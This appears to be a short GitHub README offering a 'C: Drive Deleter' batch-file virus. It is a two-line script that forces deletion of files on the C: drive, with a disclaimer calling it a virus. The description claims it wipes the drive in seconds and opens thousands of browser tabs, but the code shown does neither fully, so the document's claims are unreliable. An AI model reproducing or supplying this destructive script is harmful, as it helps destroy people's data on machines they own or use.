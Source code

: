 # C: Drive Deleter Bat File Virus
This Small code will Delete C: Drive Les Than 3 Seconds After Executing The Files With Opening Thousands Of Browser Tab At One Time. 
<br>
```
@Echo off
Del C:\ *.* |y
```
# DisclaimerThis Is Not A Toy. This Is A Virus. Dont Try It On Any Real Hardware. I Am Not Responsible for Any Misuse Of This Virus.

